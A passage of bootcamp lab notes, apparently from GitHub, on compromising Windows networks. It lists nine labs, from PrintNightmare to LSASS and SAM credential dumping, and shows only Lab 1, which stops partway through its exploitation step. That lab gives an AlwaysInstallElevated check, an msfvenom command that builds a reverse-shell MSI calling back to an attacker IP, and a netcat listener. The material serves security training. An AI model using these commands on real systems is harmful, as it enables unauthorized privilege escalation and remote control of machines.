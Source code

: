 # Network Reconnaissance and Compromise of Network Infrastructure - Day 7

## Overview
This document outlines the labs completed on 08/06/2025 during the hacking bootcamp, focusing on network reconnaissance and compromise of Windows network infrastructure. [Hints for the labs](https://md.cyber-ed.ru/s/gd8q92E50).

## Table of Contents
- [Lab 1: Privilege Escalation on Windows Network](#lab-1-privilege-escalation-on-windows-network)
- [Lab 2: Print Nightmare](#lab-2-print-nightmare)
- [Lab 3: Privilege Escalation on Windows Network (via MSSQL)](#lab-3-privilege-escalation-on-windows-network-via-mssql)
- [Lab 4: Finding Credentials in Plaintext](#lab-4-finding-credentials-in-plaintext)
- [Lab 5: Dump LSASS Process in Windows](#lab-5-dump-lsass-process-in-windows)
- [Lab 6: Dump SAM Credentials from SAM and System Database](#lab-6-dump-sam-credentials-from-sam-and-system-database)
- [Lab 7: Privilege Escalation via Impersonation](#lab-7-privilege-escalation-via-impersonation)
- [Lab 8: DLL Hijacking](#lab-8-dll-hijacking)
- [Lab 9: SeBackupPrivilege Abuse](#lab-9-sebackupprivilege-abuse)

## Labs

### Lab 1: Privilege Escalation on Windows Network
#### Objective
Escalate privileges on a Windows network by exploiting misconfigured permissions. 

#### Vulnerabilities
- Misconfigured Permissions: Excessive user privileges allow unauthorized access to administrative resources.

#### Requirements
Target Windows server must be accessible with valid domain credentials.

#### Steps
1. **Setup**
   - Verify connectivity to the target server.
   ```bash
   ping <SERVER_IP>
   ```
2. **Connect to the workstation and check for vulnerability**
   - Connection with xfreerdp3 client with shared drive, clipboard etc
   ```bash
   xfreerdp3 /v:<WORKSTATION_IP> /u:<USERNAME> /p:'<PASSWORD>' /dynamic-resolution /drive:linux,/home/kali/shared
 +clipboard
   ```
   - Check for vulnerability
   ```powershell
   reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```
   - If vulnerable, it will return `AlwaysInstallElevated    REG_DWORD    0x1`
3. **Exploitation**
   - Generate a payload on kali with msfvenom.
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=443 -f msi -o evil.msi
   ```
   - Copy the payload to the Workstation by placing it in the shared folder, or serving it over python server.
   - Start a listener on Kali `nc -nlvp <PORT>`